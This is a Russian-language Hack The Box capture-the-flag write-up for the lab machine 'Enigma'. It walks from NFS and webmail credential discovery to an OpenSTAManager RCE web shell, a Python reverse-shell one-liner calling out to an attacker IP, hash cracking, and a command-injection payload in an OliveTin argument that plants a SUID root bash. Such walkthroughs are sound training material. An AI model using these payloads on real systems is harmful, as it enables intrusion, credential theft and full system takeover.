# Enigma - Hack The Box Writeup
## 📋 Информация о машине
- **Название:** Enigma
- **Сложность:** Medium
- **OS:** Linux (Ubuntu)
- **IP:** 10.129.115.67
- **Дата прохождения:** 9 октября 2026

---

## 🔍 Разведка (Reconnaissance)

### 1. Подключение и Nmap
Подключаемся к VPN HTB и запускаем полное сканирование портов:

```
nmap -sC -sV -Pn 10.129.115.67
```

Результаты сканирования:
```
- 22/tcp — OpenSSH 9.6p1 Ubuntu
- 80/tcp — nginx 1.24.0 (редирект на http://enigma.htb/)
- 110/tcp — Dovecot pop3d
- 111/tcp — rpcbind / NFS
- 143/tcp — Dovecot imapd
- 2049/tcp — nfs_acl
- 993/tcp — imaps
- 995/tcp — pop3s
```





### 2. Анализ NFS (Network File System)
Обнаруживаем открытый NFS-сервис. Проверяем доступные экспорты:

```
showmount -e enigma.htb
```

Находим доступную шару /srv/nfs/onboarding. Монтируем её локально:

```
sudo mkdir /mount
sudo mount -t nfs enigma.htb:/srv/nfs/onboarding /mount
ls /mount
```

В шаре находим PDF-файл New_Employee_Access.pdf. Конвертируем его в текст:

```
pdftotext New_Employee_Access.pdf
cat New_Employee_Access.txt
```

Найденные данные:
```
- Сотрудник: Kevin Mitchell
- Webmail URL: http://mail001.enigma.htb
- Username: kevin
- Password: Enigma2024!
```





Добавляем домены в /etc/hosts:

```
echo "10.129.115.67 enigma.htb mail001.enigma.htb" >> /etc/hosts
```



---

## 🔎 Перечисление (Enumeration)

### 3. Доступ к Webmail
Переходим на mail001.enigma.htb и авторизуемся под пользователем kevin.

![[ENIGMA WRITEUP/img/6.png]]



В папке Inbox находим приветственное письмо от Sarah (Accounts Dept). Также обнаруживаем переписку по теме "Re: OpenSTAManager Access Request", где IT-поддержка предоставляет временный доступ:
```
- URL: http://support_001.enigma.htb
- Username: admin
- Password: Ne3s4rtars78s
```



### 4. Анализ OpenSTAManager
Переходим на support_001.enigma.htb. Видим панель управления OpenSTAManager v2.9.8.
Проверяем страницу info.php для подтверждения версии. Ищем эксплойты:

```
searchsploit openstamanager
```

Находим ***CVE-2026-38751*** (RCE Exploit).





---

## 🚪 Первоначальный доступ (Initial Access)

### 5. Эксплуатация CVE-2026-38751
Скачиваем эксплойт и запускаем его с найденными credentials:

```
./OpenSTAManager-RCE-Exploit-CVE-2026-38751 -u http://support_001.enigma.htb -U admin -P Ne3s4rtars78s
```

Эксплойт успешно загружает веб-шелл по пути /modules/shell/shell.php. Проверяем RCE:
```
http://support_001.enigma.htb/modules/shell/shell.php?c=whoami
Ответ: www-data
```




### 6. Reverse Shell
Запускаем listener и получаем обратное соединение через Python payload (так как bash не сработал):
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.235",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```



---

## ⬆️ Повышение привилегий (Privilege Escalation)

### 7. Пользователь Haris
Анализируем конфигурационный файл приложения:

```
cat config.inc.php

Находим credentials от MySQL:
- User: brollin
- Pass: Fri3nds@9099
```

Подключаемся к базе данных и дампим таблицу пользователей zz_users:

```
mysql -u brollin -p'Fri3nds@9099'
use openstamanager;
select * from zz_users;
```

Получаем хеш пароля пользователя haris. Взламываем его через hashcat:

```
hashcat -m 3200 '$2y$10$WHf1T...' /usr/share/wordlists/rockyou.txt

Пароль: bestfriends
```

Переключаемся на пользователя haris:

```
su haris
Password: bestfriends
```

Читаем user flag.














### 8. Повышение до Root через OliveTin
В домашней директории haris находим конфиг /etc/OliveTin/config.yaml. Это веб-интерфейс для выполнения команд.
Изучаем API OliveTin на порту 1337. Находим действие "Backup Database", которое принимает аргументы db_user и db_pass.

Замечаем уязвимость Command Injection в параметре db_pass. Формируем полезную нагрузку для создания SUID-бинарника:

curl -s -X POST http://127.0.0.1:1337/api/olivetin.api.v1.OliveTinApiService/StartActionAndWait \
  -H 'Content-Type: application/json' \
  -d '{
    "actionId": "backup_database",
    "arguments": [
      {"name": "db_user", "value": "backup_svc"},
      {"name": "db_pass", "value": "x'; cp /bin/bash /tmp/.bs && chmod 4755 /tmp/.bs; #"},
      {"name": "db_name", "value": "production"}
    ]
  }'

Ждем выполнения задачи. Проверяем наличие SUID-файла:

ls -la /tmp/.bs
-rwsr-xr-x 1 root root ... /tmp/.bs

Запускаем /tmp/.bs -p и получаем root. Читаем финальный флаг.











---

## 🏁 Заключение

